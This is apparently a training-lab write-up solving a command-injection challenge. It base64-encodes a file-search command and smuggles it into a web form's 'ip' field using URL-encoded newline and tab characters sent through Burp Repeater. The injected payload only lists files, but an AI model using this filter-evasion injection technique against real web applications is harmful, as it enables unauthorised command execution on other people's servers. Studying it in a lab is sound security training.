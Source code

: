 ## Challenge
Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1 

## Solution

I encode the command to base64:

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

Now create a command that executes it:

```sh
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

And send it via Burp Repeaters as:

```sh
ip=127.0.0.1%0a%09bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

and it provides with the answer which is `/usr/share/mysql/debian_create_root_user.sql`.

